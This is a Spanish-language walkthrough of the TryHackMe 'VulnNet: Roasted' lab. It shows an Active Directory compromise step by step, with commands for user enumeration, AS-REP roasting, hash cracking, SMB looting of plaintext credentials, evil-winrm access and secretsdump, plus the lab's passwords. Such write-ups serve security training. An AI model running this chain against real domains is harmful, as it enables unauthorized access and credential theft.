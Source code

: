 # VulnNet: Roasted

**Platform:** TryHackMe  
**Difficulty:** Easy  
**IP:** 10.10.52.19

---

## Información Inicial
- **Objetivo:** Obtener las dos banderas tanto del usuario como del administrador de Active Directory.  
- **Herramientas iniciales:** `nmap`, `smbclient`, `smbmap`, `impacket`, `hashcat`, `evil-winrm`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los puertos abiertos y servicios:
```bash 
nmap -sC -sV -p- --min-rate 2000 10.10.52.19
```
![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

A simple vista nos percatamos de que se trata de un entorno de Active Directory, por lo que lo primero que haremos será revisar los permisos de SMB (si estuviera activo).

![smbclient para comprobar que SMB está activo](screenshots/2.smbclient.png)
![smbmap para comprobar los permisos que tenemos sin usuario sobre las rutas](screenshots/3.smbmap.png)

Tener permisos de lectura sobre IPC$ implica poder enumerar los usuarios del dominio utilizando la herramienta `impacket-lookupsid`.

Ya que de esta herramienta tan solo queremos los nombres de usuario y su respuesta es demasiado larga, vamos a acortar cada cadena con grep y sed. Con esta modificación solo nos devolverá los nombres de usuario en lista.

```bash 
impacket-lookupsid anonymous@10.10.52.19 2>/dev/null | grep "VULNNET-RST\\\\" | sed 's/.*VULNNET-RST\\//; s/ .*//' > users.txt
```
![impacket-lookupsid para descubrimiento de nombres de usuario](screenshots/4.lookupsid.png)

La lista es demasiado larga, de manera que manualmente quitaremos los "usuarios" que obviamente no son correctos.

![Lista de usuarios reales del sistema](screenshots/5.users-txt.png)

Esta lista de usuarios nos servirá para realizar un ataque `AS-REP Roasting`, que revisa si estos son válidos y no requeren de autenticación Kerberos. De ser así, nos devolverá un hash.

```bash 
impacket-GetNPUsers vulnnet-rst.local/ -no-pass -usersfile users.txt
```
![Lista de usuarios reales del sistema](screenshots/6.getnpusers.png)

El usuario t-skid nos devuelve un hash AS-REP, el cuál guardamos en un fichero con ese mismo nombre. Para descifrar este podemos usar la herramienta `hashcat`, haciendo que lo compare con el diccionario Rockyou.

```bash 
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

![Lista de usuarios reales del sistema](screenshots/6.hashcat.png)

Tenemos la contraseña y con esta podemos tratar de acceder a SMB de nuevo, a ver si tenemos acceso a alguna otra ruta.

```bash 
smbmap -H 10.10.52.19 -u t-skid -p 'tj072889*'
```

![Lista de usuarios reales del sistema](screenshots/7.smbmap_2.png)

Ahora tenemos permisos de lectura sobre NETLOGON y SYSVOL.
Entraremos en cada uno de ellos en busca de alguna pista o credencial para continuar con la máquina.

```bash 
smbclient //10.10.52.19/SYSVOL -u t-skid -p 'tj072889*'
```

![Lista de usuarios reales del sistema](screenshots/8.smbclient_listing.png)

Con una pequeña búsqueda, encontramos el fichero ResetPassword.vbs. Descargamos este a nuestra máqunia local y examinaremos su interior.

![Lista de usuarios reales del sistema](screenshots/9.downloading_scripts.png)

![Lista de usuarios reales del sistema](screenshots/10.reset-password-vbs.png)

El fichero de reseteo de contraseña contiene las credenciales del usuario a-whitehack. Con este usuario podemos probar a entrar a la máquina víctima con `Evil-WinRM` si tuviera permiso.

```bash 
evil-winrm -i 10.10.52.19 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht'
```

![Lista de usuarios reales del sistema](screenshots/11.evilwin-rm.png)

No solo conseguimos acceso al sistema, si no que además encontramos la bandera del usuario dentro del escritorio del usuario enterprise-core-vn.

![Lista de usuarios reales del sistema](screenshots/12.user.txt.png)

Tras seguir examinando la máquina durante un rato, no encontramos nada más. En este punto comenzamos a investigar por internet sobre herramientas que pudieramos usar  y dimos con scretsdump de Impacket.

```bash 
impacket-secretsdump vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.52.19
```

![Lista de usuarios reales del sistema](screenshots/13.secret-dump.png)

La herramienta nos saca diferentes hashes e información del sistema, incluido el hash del administrador que ahora podemos usar para acceder con su cuenta por Evil-WinRM y obtener la bandera del sistema.

![Lista de usuarios reales del sistema](screenshots/14.system_flag.png)










